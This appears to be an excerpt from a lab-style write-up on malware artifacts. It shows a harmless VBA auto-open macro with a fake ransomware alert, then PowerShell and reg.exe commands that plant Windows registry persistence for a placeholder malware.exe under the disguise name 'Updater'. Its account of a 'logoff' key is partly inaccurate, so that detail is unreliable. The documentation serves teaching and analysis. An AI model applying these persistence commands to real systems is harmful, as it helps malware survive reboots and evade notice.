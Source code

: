 ```
    stream.Close
    
End Function

Sub Document_Open() 'procedure will run once the document is opened
    MsgBox "This file contained malicious code. Your files are now under attack!", vbExclamation, "RANSOMWARE" 'opens a message box alerting the user that the code has run
    
    Dim encoded As String
    encoded = "bWFsd2FyZQ==" '"malware" after being obfuscated in base64
    Dim decoded As String
    decoded = Base64Decode(encoded) 'calls to function
    
    MsgBox decoded
End Sub
```
### 2. System Artifacts

#### Registry Evidence

- Run Key:
  - Upon a user logging on, the malware.exe will be initiated. This will allow any processes that may have been terminated from the computer shutdown to restart. Allows for persistence in the attack and disguises itself among official Windows tools. Below is the PowerShell code:

```
$MalwarePath = "C:\Users\Public\malware.exe" #defines where the malware is stored
$RegPath = "HKCU: \Software\Microsoft\Windows\CurrentVersion\Run" #directs to the registry key
$Name = "Updater" #name of the new registry key
Set-ItemProperty -Path $RegPath -Name $Name -Value $MalwarePath
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"/v Updater /t REG_SZ /d "C:\Users\Public\malware.exe" /f #creates the new key
```

   - To ensure the code worked, the Registry Editor was checked, see below:

<img width="3840" height="2160" alt="proof of new registry key in registry editor" src="https://github.com/user-attachments/assets/3fd623a1-55e2-4255-9538-32e1f03c3a1a" />

- Logoff Key:
   - Although there is no standard key for logging off, an attacker can still manipulate the environment keys, which may not take effect until after a logoff or a restart of the session. Keys in the environment will be wiped after the session ends, but having a script that runs upon logging off can inject the malicious key once again, removing its volatility. Below is the PowerShell code to add a 'logoff' key:

```
$LogoffScript = "C:\Users\Public\malware.exe" #defines where the malware is located
Set-ItemProperty —Path "HKCU:\Environment" -Name "UserInitMprLogonScript" -Value $LogoffScript
reg add "HKCU\Software\Microsoft\CurrentVersion\Logoff" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\Public\malware.exe" /f #creates new key
```

   - To ensure the code worked, the Registry Editor was checked, see below:
